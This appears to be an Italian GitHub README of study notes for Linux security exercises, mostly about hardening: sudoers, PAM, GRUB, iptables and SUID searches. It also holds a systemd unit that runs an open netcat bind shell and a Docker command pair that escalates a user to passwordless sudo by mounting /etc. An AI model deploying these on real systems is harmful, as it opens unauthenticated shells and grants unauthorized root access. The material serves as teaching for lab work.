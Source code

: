 # useful-links-cysec
- [here document](https://thelinuxcode.com/what-is-cat-eof-bash-script/)
- [regex cheatsheet](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular_expressions/Cheatsheet)
- [sed guide](https://www.gnu.org/software/sed/manual/sed.html)
- [awk guide](https://www.gnu.org/software/gawk/manual/gawk.html)
----
- Configura sudo affinchè un utente possa eseguire solo un comando specifico (e.s: nmap)
  - ```bash
    #/etc/sudoers.d/buonhobo

    buonhobo ALL = /usr/bin/nmap
    ```
  - [sudoers guide](https://www.digitalocean.com/community/tutorials/how-to-edit-the-sudoers-file)
- Configura sudo affinchè un utente possa eseguire solo un comando specifico ma senza un parametro (e.s: si puo eseguire nmap ma non nmap -p). Nota: si possono mettere espressioni regolari nel file sudoers
  - ```bash
    #/etc/sudoers.d/buonhobo

    buonhobo ALL = /usr/bin/nmap, !/usr/bin/nmap -p
    ```
  - [sudoers regex](https://www.sudo.ws/posts/2022/03/sudo-1.9.10-using-regular-expressions-in-the-sudoers-file/)
- Cercare tutti gli eseguibili con SUID
  - ```bash
    find / -perm -4000 -type f -ls
    ```
  - ```bash
    find / -perm -u=s -type f -ls
    ```
  - [find cheatsheet](https://cheat.sh/find)
- Cercare tutti gli eseguibili con GUID
  - ```bash
    find / -perm -2000 -type f -ls
    ```
  - ```bash
    find / -perm -g=s -type f -ls
    ```
- Creare uno unit file di Systemd per permettere una shell aperta a tutti sulla rete (netcat in modalità listen con il processo /bin/bash) e provare a connettersi dalla propria macchina usando netcat
  - ```bash
    #/etc/systemd/system/netcat.service

    [Unit]
    Description=Netcat shell

    [Service]
    # connect using `nc localhost 1234`
    ExecStart=/bin/nc -l -p 1234 -e /bin/bash

    [Install]
    WantedBy=default.target
    ```
  - [systemd arch wiki](https://wiki.archlinux.org/title/Systemd#Writing_unit_files)
  - [systemd manual](https://www.freedesktop.org/software/systemd/man/latest/systemd.unit.html)
- Installare e configurare un modulo PAM per richiedere caratteristiche minime alla password (min 8 caratteri, maiuscole, minuscole e simboli)
  - ```bash
    #/etc/pam.d/common-password <- per forza qui, il file esiste già e va modificato con sed

    #...
    password requisite pam_pwquality.so retry=3 minlen=8 ucredit=-1 lcredit=-1 dcredit=-1 ocredit=-1
    #...
    ```
  - [pam guide](https://www.tecmint.com/configure-pam-in-centos-ubuntu-linux/)
  - [cracklib guide](https://linux.die.net/man/8/pam_cracklib)
- Imposta una password a GRUB così da non permettere l'avvio del sistema operativo con parametri del kernel non standard
  - ```bash
    # This sets a superuser root with password ciao
    password=ciao
    hash=$(echo -e "$password\n$password" | grub-mkpasswd-pbkdf2 | awk '/grub/ {print $NF}')
    cat << EOF >> /etc/grub.d/40_custom

    set superusers='root'
    password_pbkdf2 root $hash
    EOF

    # This makes the boot entry unrestricted
    # So that the password is only needed for changing it
    # And not for booting the system
    sed -i '0,/^CLASS="/ {//s/"$/ --unrestricted"/}' /etc/grub.d/10_linux

    # This applies the changes
    sudo update-grub
    ```
    - [stack overflow question](https://superuser.com/questions/488275/grub-2-password-protection-in-debian)
- Rendi la cartella /var/log leggibile solo da root
  - ```bash
    # I permessi diventano rwx--x--x
    # Questo permette agli altri di accedere ai file dentro /var/log se hanno il permesso
    # Ma non permette di vedere i file dentro /var/log
    chmod 711 /var/log
    # Si può mettere 700 per dare permesso solo a root
    # E si può usare -R per modificare ricorsivamente i permessi
    ```
- Configura un utente per poter fare cat dei logs ma non essere amministratore (va configurato sudoers in modo opportuno)
  - ```bash
    #/etc/sudoers.d/buonhobo

    # This allows running cat inside /var/log but does not allow using .. to access other directories
    buonhobo ALL = /usr/bin/cat ^/var/log/.+$, !/usr/bin/cat ^/var/log/.*(\.\.).*$
    ```
- Trova tutti i processi che hanno un file descriptor aperto dentro la cartella /var/log (il comando lsof tornerà comodo)
  - ```bash
    lsof +D /var/log
    ```
- Usa docker per effettuare un privilege escalation
  - ```bash
    # This adds buonhobo to sudo group
    docker run -v /etc:/ciao alpine sh -c "sed '/sudo/s/[a-z,]*$/buonhobo/' -i /ciao/group"

    # This lets buonhobo use sudo for everything with no password
    docker run -v /etc:/ciao alpine sh -c "echo 'buonhobo ALL=(ALL) NOPASSWD: ALL' >> /ciao/sudoers"
    ```
- Cercare se esiste un qualche file all'interno della home di un utente che sia scrivibile da tutti gli utenti
  - ```bash
    find /home/ -type f -perm -o=w
    ```
- Cercare se esiste una cartella all'interno della home di un utente che sia scrivibile da tutti gli utenti
  - ```bash
    find /home/ -type d -perm -o=w
    ```
- Creare un utente con la password che scade ogni giorno
  - ```bash
    # This creates a user with a password that expires every day
    sudo useradd -m buonhobo
    chage -M 1 buonhobo
    ```
  - [chage cheatsheet](https://cheat.sh/chage)
  - [/etc/shadow manual](https://linux.die.net/man/5/shadow)
----
Per tutta la roba iptables basta consultare il [manuale](https://linux.die.net/man/8/iptables) e la [guida di DigitalOcean](https://www.digitalocean.com/community/tutorials/iptables-essentials-common-firewall-rules-and-commands).
Meglio ricordarsi quando si è in ssh di permettere le connessioni ESTABLISHED e RELATED per non venire disconnessi.
Altra cosa buona è permettere il traffico in loopback

- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22)
- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22) dall'IP 1.2.3.4 e ad un webserver da qualunque IP (TCP port 80 e 443)
- Imposta Iptables affinchè sia bloccato tutto il traffico Internet sulla macchina (gli utenti non possono navigare) ma sia funzionante il webserver (TCP port 80 e 443)
- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22) e ad un webserver (TCP port 80 e 443)

Questo soddisfa tutti i punti sopra:
```bash
# Generated by iptables-save v1.8.9 (nf_tables) on Tue Dec  3 15:46:34 2024
*filter
:INPUT DROP [51:3156] # Non accetto pacchetti di default
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [4:280] # Non mando pacchetti verso fuori di default

# Accetto il traffico in loopback per non rompere niente
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o lo -j ACCEPT

# Accetto connessioni nuove (o established per non venire disconnesso) su ssh solo da un certo indirizzo
-A INPUT -s 192.168.122.1/32 -p tcp -m tcp --dport 22 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 443 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT

# Non faccio connessioni nuove, posso solo rispondere a ssh, http e https
-A OUTPUT -p tcp -m tcp --sport 22 -m conntrack --ctstate ESTABLISHED -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -m conntrack --ctstate ESTABLISHED -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 443 -m conntrack --ctstate ESTABLISHED -j ACCEPT
COMMIT
# Completed on Tue Dec  3 15:46:34 2024
```

